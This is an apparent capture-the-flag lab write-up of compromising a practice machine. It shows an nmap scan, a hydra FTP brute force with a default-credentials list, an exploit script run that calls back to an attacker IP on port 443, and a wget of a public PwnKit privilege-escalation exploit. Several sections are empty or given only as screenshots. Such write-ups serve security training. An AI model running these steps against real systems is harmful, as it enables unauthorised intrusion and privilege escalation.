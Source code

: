 #Pwned! 
```
192.168.195.183
```

## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.195.183 -vvv -p- -oN enum/full
```
The output being:
```
PORT   STATE  SERVICE  REASON         VERSION
20/tcp closed ftp-data reset ttl 61
21/tcp open   ftp      syn-ack ttl 61 vsftpd 3.0.3
80/tcp open   http     syn-ack ttl 61 Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: Host: 127.0.0.1; OS: Unix
```


## Nmap UDP


# Enumeration
## FTP
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.195.183
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930094809.png?raw=true)
```
passive
mget backup
```

## HTTP

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930091619.png?raw=true)

strings backup
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930095445.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930100544.png?raw=true)
```
python3 50911.py -s 192.168.45.239 443
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102513.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102534.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102436.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102630.png?raw=true)

# PrivEsc

## Manual



## Automated

### Peass

```
https://medium.com/@0xrave/exghost-proving-ground-practice-walkthrough-0b50df883a65
```
```
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/refs/heads/main/CVE-2021-4034.py -O exploit-kernel.py
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930104718.png?raw=true)

### Mimikatz


